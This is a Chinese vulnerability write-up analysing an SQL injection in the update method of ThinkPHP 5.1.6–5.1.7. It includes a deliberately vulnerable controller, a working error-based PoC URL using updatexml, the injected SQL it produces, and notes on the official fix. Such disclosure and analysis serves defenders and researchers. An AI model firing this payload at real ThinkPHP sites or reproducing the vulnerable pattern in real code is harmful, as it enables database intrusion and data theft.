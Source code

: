 5.1.6 \<= Thinkphp \<= 5.1.7（非最新的 5.1.8 版本也可利用）
===========================================================

一、漏洞简介
------------

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（ **update**
方法注入）。本次漏洞存在于 **Mysql** 类的 **parseArrayData**
方法中由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL** 语句，导致
**SQL注入漏洞** 的产生

二、漏洞影响
------------

5.1.6\<=ThinkPHP\<=5.1.7 (非最新的 **5.1.8** 版本也可利用)。

三、复现过程
------------

### 漏洞环境

通过以下命令获取测试环境代码：

    composer create-project --prefer-dist topthink/think tpdemo

将 **composer.json** 文件的 **require** 字段设置成如下：

    "require": {
        "php": ">=5.6.0",
        "topthink/framework": "5.1.7"
    }

然后执行 `composer update` ，并将
**application/index/controller/Index.php** 文件代码设置如下：

    <?php
    namespace app\index\controller;

    class Index
    {
        public function index()
        {
            $username = request()->get('username/a');
            db('users')->where(['id' => 1])->update(['username' => $username]);
            return 'Update success';
        }
    }

在 **config/database.php** 文件中配置数据库相关信息，并开启
**config/app.php** 中的 **app\_debug** 和 **app\_trace**
。创建数据库信息如下：

    create database tpdemo;
    use tpdemo;
    create table users(
        id int primary key auto_increment,
        username varchar(50) not null
    );
    insert into users(id,username) values(1,'mochazz');

### poc

    http://0-sec.org:8000/index/index/index?username[0]=point&username[1]=1&username[2]=updatexml(1,concat(0x7,user(),0x7e),1)^&username[3]=0

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app\_debug** 是无法看到
**SQL** 报错信息的）

![1.png](/Users/aresx/Documents/VulWiki/.resource/5.1.6<=Thinkphp<=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId26.png)

### 漏洞分析

![2.png](/Users/aresx/Documents/VulWiki/.resource/5.1.6<=Thinkphp<=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId28.png)

首先在官方发布的 **5.1.9**
版本更新说明中，发现其中提到该版本包含了一个安全更新，我们可以查阅其
**commit** 记录，发现其删除了 **parseArrayData** 方法，这处 **case**
语句之前出现过 **insert** 注入，所以比较可疑。

![3.png](/Users/aresx/Documents/VulWiki/.resource/5.1.6<=Thinkphp<=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId29.png)

接着我们直接跟着上面的攻击 **payload** 来看看漏洞原理。首先，
**payload** 数据经过 **ThinkPHP** 内置方法的过滤后（不影响我们的
**payload** ），直接进入了 **Query** 类的 **update** 方法，该方法调用了
**Connection** 类的 **update**
方法，该方法又调用了 **\$this-\>builder** 的 **insert** 方法，这里的 **\$this-\>builder** 为 **\\think\\db\\builder\\Mysql** 类，该类继承于 **Builder** 类，代码如下：

![4.png](/Users/aresx/Documents/VulWiki/.resource/5.1.6<=Thinkphp<=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId30.png)

在 **Builder** 类的 **update** 方法中，调用了 **parseData**
方法。这个方法中的 **case** 语句之前存在 **SQL注入漏洞**
，现已修复，然而却多了 **default**
代码段，而这段代码也是在新版本中被删除的。

![5.png](/Users/aresx/Documents/VulWiki/.resource/5.1.6<=Thinkphp<=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId31.png)

我们跟进到 **parseArrayData**
方法，发现其中又将可控变量进行拼接，其变量来源均来自用户输入。之后的过程就和之前的
**insert** 注入一样，用 **str\_replace**
将变量填充到 **SQL** 语句中，最终执行，导致 **SQL注入漏洞** 。

![6.png](/Users/aresx/Documents/VulWiki/.resource/5.1.6<=Thinkphp<=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId32.png)

上面 **第15行** 的 **\$result** 相当于 **\$a(\'\$b(\$c)\')** 其中
**\$a、\$b、\$c** 均可控。最后形成的 **SQL** 语句如下：

    UPDATE `users`  SET `username` = $a('$b($c)')  WHERE  `id` = 1;

接着我们想办法闭合即可。我们令 **\$a =
updatexml(1,concat(0x7,user(),0x7e),1)\^** 、 **\$b = 0** 、 **\$c = 1**
，即：

    UPDATE `users` SET `username` = updatexml(1,concat(0x7,user(),0x7e),1)^('0(1)') WHERE `id` = 1

### 漏洞修复

官方修复方法比较暴力，直接将 **parseArrayData** 方法删除了。

![7.png](/Users/aresx/Documents/VulWiki/.resource/5.1.6<=Thinkphp<=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId34.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![8.png](/Users/aresx/Documents/VulWiki/.resource/5.1.6<=Thinkphp<=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId36.png)

参考链接
--------

> https://github.com/Mochazz/ThinkPHP-Vuln
